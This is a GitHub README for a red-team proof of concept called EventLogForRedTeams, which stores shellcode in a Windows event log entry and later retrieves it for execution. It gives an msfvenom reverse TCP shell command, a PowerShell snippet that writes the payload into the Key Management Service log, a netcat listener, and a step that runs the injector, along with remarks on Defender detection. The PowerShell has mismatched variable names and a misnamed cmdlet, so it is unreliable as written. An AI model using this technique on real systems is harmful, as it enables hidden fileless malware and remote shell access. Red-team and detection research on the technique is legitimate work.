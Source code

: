 EventLogForRedTeams is a proof-of-concept for showing how a malicious payload can be stored in a Windows event log entry and later retrieved for execution. This technique is not original, and was first discussed here: https://threatpost.com/attackers-use-event-logs-to-hide-fileless-malware/179484/ and https://securelist.com/a-new-secret-stash-for-fileless-malware/106393/
 

Powershell Write-EventLog Command
```powershell
# Create variable to contain payload
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex

$msf = '<Insert Shellcode as Hex Literal String'

# Convert Payload variable to hex byte array
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')

# Create new event log entry
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener
```bash
nc -nvlp 1337
```
Execute code injector

```powershell
.\EventLogForRedTeams.exe
```

![Injecting Payload into Event Log](img/msf.png)

As of July 13, 2022, execution will be successful however, Microsoft Defender will eventually catch the shellcode running in memory (AMSI) and kill the process. That is not an issue as in the real world as such vanilla payload would not be used operationally. Well hopefully not at least.
